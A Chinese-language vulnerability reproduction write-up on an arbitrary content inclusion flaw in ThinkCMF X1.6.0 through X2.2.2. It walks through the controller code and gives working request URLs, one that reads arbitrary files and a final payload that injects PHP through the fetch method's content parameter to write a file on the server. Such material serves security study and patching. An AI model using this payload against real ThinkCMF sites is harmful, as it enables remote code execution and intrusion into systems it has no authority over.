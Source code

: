 # ThinkCMF 框架上的任意内容包含漏洞

> 原文：[http://book.iwonder.run/0day/ThinkCMF/1.html](http://book.iwonder.run/0day/ThinkCMF/1.html)

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF X1.6.0 ThinkCMF X2.1.0 ThinkCMF X2.2.0 ThinkCMF X2.2.1 ThinkCMF X2.2.2

## 三、复现过程

根据 index.php 中的配置，他的项目路径为 application，打开 Portal 下的 Controller 目录，选择一个控制类文件。

![image](img/dc2124168ef5a0ed5e3951d6d7233156.png)

发现他的父类为 Common\Controller\HomebaseController。 在 HomeBaseController 中加入如下测试代码

![image](img/a0e163daa7b2c4af160e854fe82f7dc0.png)

ThinkPHP 是一套基于 MVC 的应用程序框架，被分成三个核心部件：模型（M）、视图（V）、控制器（C）。 由于添加的代码在控制器中，根据 ThinkPHP 框架约定可以通过 a 参数来指定对应的函数名，但是该函数的修饰符必须为 Public, 而添加的代码正好符合该条件。 可以通过如下 URL 进行访问，并且可以添加 GET 参数 arg1 传递给函数。

```
http://127.0.0.1/cmfx-master/?a=test_public&arg1=run%20success 
```

![image](img/285828af76c77dd0ffaefb94e52c2c67.png)

HomeBaseController 类中有一些访问权限为 public 的函数，

![image](img/8ea0150afc6a3b26d3a96f719e48a179.png)

重点关注 display 函数.看描述就是可以自定义加载模版，通过 $this->parseTemplate 函数根据约定确定模版路径，如果不符合原先的约定将会从当前目录开始匹配。 然后调用 THinkphp Controller 函数的 display 方法

```
/**
 * 加载模板和页面输出 可以返回输出内容
 * @access public
 * @param string $templateFile 模板文件名
 * @param string $charset 模板输出字符集
 * @param string $contentType 输出类型
 * @param string $content 模板输出内容
 * @return mixed
 */
public function display($templateFile = '', $charset = '', $contentType = '', $content = '', $prefix = '') {
    parent::display($this->parseTemplate($templateFile), $charset, $contentType,$content,$prefix);
} 
```

再往下就是调用 Think View 的 fetch 方法，这里的 TMPL_ENGINE_TYPE 为 Think, 最终模版内容解析在 ParseTemplateBehavior 中完成 如下调用即可加载任意文件 [http://0-sec.org:81/cmfx-master/?a=display&templateFile=README.md](http://0-sec.org:81/cmfx-master/?a=display&templateFile=README.md)

![image](img/0803621349a3ab70ca404da9ad5897bb.png)

往下面翻阅发现还有 fetch 方法，display 方法相对 fetch 只是多了一个 render 的过程，而且这里不需要知道文件路径

最终完美 payload

```
http://0-sec.org/?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php> 
```

